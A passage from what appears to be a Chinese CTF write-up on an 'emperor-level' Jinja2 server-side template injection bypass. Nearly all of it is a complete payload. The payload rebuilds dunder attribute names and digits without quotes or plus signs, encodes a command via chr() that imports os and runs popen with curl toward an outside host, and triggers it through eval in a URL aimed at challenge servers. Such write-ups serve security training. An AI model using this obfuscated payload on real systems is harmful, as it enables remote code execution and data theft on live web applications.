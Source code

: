 甚至不要加号具体可以参考我上面总结的字符串的处理，有很多不举例了

> {{""["__cla""ss__"]}}

## 帝王级绕过

慎用因为累，至于下面为什么cc对应1，ccc对应2是因为，如果获取到0的话那么，比如40就无法拼接，+1以后就可以`ccccc~c`

```
http://e27681b2-43cc-4698-a5d9-4e67729a27a5.chall.ctf.show/?name=http://c8f74fd3-a05a-477c-bb97-10325b9ce77d.chall.ctf.show?name=
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set ccccccccccccc=(dict(eeeeeeeeeeee=a)|join|count)%}
{% set cccccccccccccc=(dict(eeeeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=chr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~cccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccc~ccccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~cccc)|int)%2bchr((cccccccccccc~cccccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~cccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccccccccc)|int)%2bchr((ccccccccccc~cccccc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccccccccc~cccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccccc~ccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccccc~cccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccc~cc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccccccccc~ccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~cccc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((ccccc~cc)|int)%}
{%if x.eval(cmd)%}
666
{%endif%}
```
